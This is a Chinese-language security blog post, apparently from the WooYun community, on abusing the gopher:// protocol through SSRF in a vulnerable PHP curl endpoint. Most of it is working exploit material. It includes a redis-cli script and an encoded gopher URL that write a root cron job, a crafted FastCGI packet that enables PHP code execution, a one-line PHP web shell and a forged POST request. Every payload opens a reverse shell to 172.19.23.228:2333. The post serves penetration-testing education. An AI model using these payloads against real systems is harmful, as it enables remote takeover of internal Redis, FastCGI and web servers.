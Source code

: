# Do Evil Things with gopher://

0x00 前言
=====

Gopher 协议是 HTTP 协议出现之前，在 Internet 上常见且常用的一个协议。当然现在 Gopher 协议已经慢慢淡出历史。但是经过部分测试，发现阿里云的 libcurl 还是支持 Gopher 协议的，在实际环境中可能会有更多。

Gopher 协议可以做很多事情，特别是在 SSRF 中可以发挥很多重要的作用。利用此协议可以攻击内网的 FTP、Telnet、Redis、Memcache，也可以进行 GET、POST 请求。这无疑极大拓宽了 SSRF 的攻击面。

最大化利用 SSRF，将一个鸡肋漏洞玩的的淋漓尽致的例子也有，比如：[WooYun-2016-213982：bilibili某分站从信息泄露到ssrf再到命令执行](http://wooyun.org/bugs/wooyun-2016-0213982)

0x01 环境
=====

*   IP: 172.19.23.218
*   OS: CentOS 6

根目录下 1.php 内容为：

```
<?php
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $_GET["url"]);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_HEADER, 0);
$output = curl_exec($ch);
curl_close($ch);
?>

```

0x02 攻击内网 Redis
=====

Redis 任意文件写入现在已经十分受到广大渗透狗们的欢迎，一般内网中会存在 root 权限运行的 Redis 服务，利用 Gopher 协议攻击内网中的 Redis，这无疑可以隔山打牛，直杀内网。

首先了解一下通常攻击 Redis 的命令，然后转化为 Gopher 可用的协议。常见的 exp 是这样的：

```
redis-cli -h $1 flushall
echo -e "\n\n*/1 * * * * bash -i >& /dev/tcp/172.19.23.228/2333 0>&1\n\n"|redis-cli -h $1 -x set 1
redis-cli -h $1 config set dir /var/spool/cron/
redis-cli -h $1 config set dbfilename root
redis-cli -h $1 save

```

利用这个脚本攻击自身并抓包得到数据流：

![](http://drops.javaweb.org/uploads/images/99329e6728d88e207940c4cd9aa89300e658d6a8.jpg)

改成适配于 Gopher 协议的 URL：

```
gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/172.19.23.228/2333 0>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a

```

攻击：

![](http://drops.javaweb.org/uploads/images/ff6000014d4b5c4a961a3bdfa93cc7497439620f.jpg)

0x03 攻击 FastCGI
=====

一般来说 FastCGI 都是绑定在 127.0.0.1 端口上的，但是利用 Gopher+SSRF 可以完美攻击 FastCGI 执行任意命令。

首先构造 exp：

![](http://drops.javaweb.org/uploads/images/87156c4a375abfbcc215b11e91bd405af4c70b54.jpg)

构造 Gopher 协议的 URL：

```
gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%10%00%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH97%0E%04REQUEST_METHODPOST%09%5BPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Asafe_mode%20%3D%20Off%0Aauto_prepend_file%20%3D%20php%3A//input%0F%13SCRIPT_FILENAME/var/www/html/1.php%0D%01DOCUMENT_ROOT/%01%04%00%01%00%00%00%00%01%05%00%01%00a%07%00%3C%3Fphp%20system%28%27bash%20-i%20%3E%26%20/dev/tcp/172.19.23.228/2333%200%3E%261%27%29%3Bdie%28%27-----0vcdb34oju09b8fd-----%0A%27%29%3B%3F%3E%00%00%00%00%00%00%00

```

攻击：

![](http://drops.javaweb.org/uploads/images/73b9373a96fb0db68ab633d16a88db2f62cf580b.jpg)

0x04 攻击内网 Vulnerability Web
=====

Gopher 可以模仿 POST 请求，故探测内网的时候不仅可以利用 GET 形式的 PoC（经典的 Struts2），还可以使用 POST 形式的 PoC。  
一个只能 127.0.0.1 访问的 exp.php，内容为：

```
<?php system($_POST[e]);?>  

```

利用方式：

```
POST /exp.php HTTP/1.1
Host: 127.0.0.1
User-Agent: curl/7.43.0
Accept: */*
Content-Length: 49
Content-Type: application/x-www-form-urlencoded

e=bash -i >%26 /dev/tcp/172.19.23.228/2333 0>%261

```

构造 Gopher 协议的 URL：

```
gopher://127.0.0.1:80/_POST /exp.php HTTP/1.1%0d%0aHost: 127.0.0.1%0d%0aUser-Agent: curl/7.43.0%0d%0aAccept: */*%0d%0aContent-Length: 49%0d%0aContent-Type: application/x-www-form-urlencoded%0d%0a%0d%0ae=bash -i >%2526 /dev/tcp/172.19.23.228/2333 0>%25261null

```

攻击：

![](http://drops.javaweb.org/uploads/images/e9c14857e40056cc9a8b63be1e5de4928ae74a49.jpg)

0x05 以上
=====

Gopher + SSRF 组合拳还有更多的姿势等待挖掘，水平有限，抛砖引玉。

0x06 参考
=====

*   [Gopher (protocol)](https://en.wikipedia.org/wiki/Gopher_(protocol))
*   [redis 远程命令执行 exploit (不需要flushall)](http://zone.wooyun.org/content/23858)
*   [PHP FastCGI 的远程利用](http://zone.wooyun.org/content/1060)